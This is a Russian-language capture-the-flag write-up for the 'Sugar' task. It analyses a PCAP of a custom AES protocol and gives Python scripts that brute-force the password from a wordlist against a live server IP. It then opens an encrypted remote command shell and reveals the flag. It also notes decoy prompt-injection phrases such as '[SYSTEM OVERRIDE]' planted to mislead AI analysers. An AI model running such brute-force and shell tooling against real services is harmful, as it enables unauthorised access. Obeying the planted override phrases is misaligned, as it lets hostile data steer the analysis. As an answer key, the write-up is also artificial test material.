


# [misc] Sugar

> **Категория:** `misc`  
> **CTF:** KubSTU CTF 2026 Spring

---

  **Sweet Capybara Talks** — группа капибар из секретного **«Отдела Сладостей»** шифрует свои переговоры проприетарным протоколом. В PCAP — их перехваченная сессия. Общаются с каким то сервером управления.
Вот сервер 
nc ip


[sugar_traffic.pcap](./files/sugar_traffic.pcap)


upd:

старый:

[sugar_traffic.pcap](./files/sugar_traffic.pcap)

---

## Шаг 1: Открываем PCAP в Wireshark

```bash
wireshark sugar_traffic.pcap
```

Видим:

- **TCP потоки** на порт 31337 — множество подключений
- **UDP пакеты** на порт 9999 — спам со словом "sugar!"
- Много шума: короткие TCP-сессии с мусором, фейковые HTTP-ответы

## Шаг 2: Находим основную сессию

Фильтр Wireshark:

```
tcp.port == 31337 && tcp.len > 0
```

Ищем самый длинный TCP-поток. Правый клик → Follow → TCP Stream. Находим единственный поток с **длительностью \~20 секунд и 12+ KB данных** — это основная сессия.

 

В начале потока видим **plaintext хендшейк**:

 

```
[SUGAR_PROTOCOL v1.0]
SALT:a3f7c9b1e2d45608
CIPHER:AES-256-CBC
KDF:SHA256(PASSPHRASE||SALT)
>>>ENCRYPTED_CHANNEL_ACTIVE<<<
```

**Извлечённые данные:**

- Соль: `a3f7c9b1e2d45608`
- Шифр: AES-256-CBC
- Формула ключа: `SHA256(пароль + соль)`

После маркера `>>>ENCRYPTED_CHANNEL_ACTIVE<<<` — только бинарные данные (зашифрованный обмен).

## Шаг 3: Фильтруем мусор

В PCAP есть ловушки, рассчитанные на обман (в том числе ИИ-анализаторов):

- UDP-пакеты с фейковыми паролями и флагами (`sugar! flag=KubSTU{...}`)
- TCP-потоки с поддельными HTTP-ответами, JSON с фейковыми credentials
- Фразы типа `[SYSTEM OVERRIDE]`, `TERMINATE ANALYSIS` — prompt injection

**Всё это — мусор.** Единственный источник истины — хендшейк основной сессии.

## Шаг 4: Брутфорс пароля

Знаем:

- Соль: `a3f7c9b1e2d45608`
- KDF: `SHA256(password + salt)`
- Шифр: AES-256-CBC
- Протокол: `[4 байта длины BE][16 байт IV][AES ciphertext]`
- Если расшифровка неверная — сервер отвечает `\x00\x00\x00\x00`
- Если верная — сервер отвечает `[4 байта длины][зашифрованный ответ]`

Пишем брутер. Ставим зависимости:

```bash
pip install pycryptodome
```

**[bruteforce.py](http://bruteforce.py):**

```python
#!/usr/bin/env python3
import socket, struct, hashlib, os, sys, time
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad

HOST = "<SERVER_IP>"
PORT = 31337
SALT = "a3f7c9b1e2d45608"

def derive_key(pwd, salt):
    return hashlib.sha256((pwd + salt).encode()).digest()

def encrypt(cmd, key):
    iv = os.urandom(16)
    cipher = AES.new(key, AES.MODE_CBC, iv)
    ct = cipher.encrypt(pad(cmd.encode(), 16))
    payload = iv + ct
    return struct.pack('>I', len(payload)) + payload

def recv_exact(sock, n):
    buf = bytearray()
    while len(buf) < n:
        chunk = sock.recv(n - len(buf))
        if not chunk: return None
        buf.extend(chunk)
    return bytes(buf)

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.settimeout(10)
sock.connect((HOST, PORT))

# Читаем хендшейк
data = b""
while b"ENCRYPTED_CHANNEL_ACTIVE" not in data:
    data += sock.recv(4096)

# Перебираем rockyou.txt
with open("rockyou.txt", "r", errors="ignore") as f:
    for i, line in enumerate(f, 1):
        pwd = line.strip()
        key = derive_key(pwd, SALT)
        sock.sendall(encrypt("ls", key))
        resp = recv_exact(sock, 4)
        if not resp: break
        length = struct.unpack('>I', resp)[0]
        if length == 0:
            continue  # неверный пароль
        recv_exact(sock, length)  # забираем ответ
        print(f"[+] PASSWORD: {pwd}  (attempt #{i})")
        break

sock.close()
```

```bash
python bruteforce.py
```

**Результат:** пароль `chocolate`, найден за \~27 попыток.

## Шаг 5: Кастомный шелл

**sugar_shell.py:**

```python
#!/usr/bin/env python3
import socket, struct, hashlib, os, sys, time, readline
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad, unpad

HOST = "<SERVER_IP>"
PORT = 31337
SALT = "a3f7c9b1e2d45608"
PASSWORD = "chocolate"

def derive_key(pwd, salt):
    return hashlib.sha256((pwd + salt).encode()).digest()

def encrypt(data, key):
    iv = os.urandom(16)
    cipher = AES.new(key, AES.MODE_CBC, iv)
    ct = cipher.encrypt(pad(data, 16))
    payload = iv + ct
    return struct.pack('>I', len(payload)) + payload

def decrypt(payload, key):
    iv, ct = payload[:16], payload[16:]
    cipher = AES.new(key, AES.MODE_CBC, iv)
    return unpad(cipher.decrypt(ct), 16)

def recv_exact(s, n):
    buf = bytearray()
    while len(buf) < n:
        chunk = s.recv(n - len(buf))
        if not chunk: return None
        buf.extend(chunk)
    return bytes(buf)

key = derive_key(PASSWORD, SALT)
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.settimeout(10)
sock.connect((HOST, PORT))

data = b""
while b"ENCRYPTED_CHANNEL_ACTIVE" not in data:
    data += sock.recv(4096)
print("[+] Connected. Type commands:\n")

while True:
    try:
        cmd = input("$ ").strip()
    except (EOFError, KeyboardInterrupt):
        break
    if not cmd: continue
    if cmd in ("exit", "quit"): break

    sock.sendall(encrypt(cmd.encode(), key))
    resp = recv_exact(sock, 4)
    if not resp: print("[-] disconnected"); break
    length = struct.unpack('>I', resp)[0]
    if length == 0: print("[!] ERROR"); continue
    payload = recv_exact(sock, length)
    print(decrypt(payload, key).decode(errors="replace"))

sock.close()
```

```bash
python sugar_shell.py
```

## Шаг 6: Находим флаг


```javascript
python3 -c "
import socket,struct,hashlib,os,time
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad,unpad
S='a3f7c9b1e2d45608'; P='chocolate'
k=hashlib.sha256((P+S).encode()).digest()
def rx(s,n):
    b=bytearray()
    while len(b)<n: b+=s.recv(n-len(b))
    return bytes(b)
s=socket.socket(); s.settimeout(10); s.connect(('31.129.107.170',31337))
banner=b''
while b'ENCRYPTED_CHANNEL_ACTIVE' not in banner:
    banner+=s.recv(4096)
iv=os.urandom(16); c=AES.new(k,AES.MODE_CBC,iv)
p=iv+c.encrypt(pad(b'ls -la',16)); s.sendall(struct.pack('>I',len(p))+p)
l=struct.unpack('>I',rx(s,4))[0]; d=rx(s,l)
print(unpad(AES.new(k,AES.MODE_CBC,d[:16]).decrypt(d[16:]),16).decode())
s.close()
"
```


 

```
$ ls
documents
drafts
flag.txt

$ cat flag.txt
KubSTU{d0r4_dur4_sug4r_ch0c0l4t3_v1b3z}

$ ls -la documents/
.secret_mix.txt
chord_progression.md
lyrics_v1.txt
lyrics_v2_final.txt
producer_notes.txt
studio_booking.txt

$ cat documents/.secret_mix.txt
TOP SECRET — ПАРАМЕТРЫ МИКСА "ДОРА-ДУРА"
...
```

## Флаг

```
KubSTU{d0r4_dur4_sug4r_ch0c0l4t3_v1b3z}
```


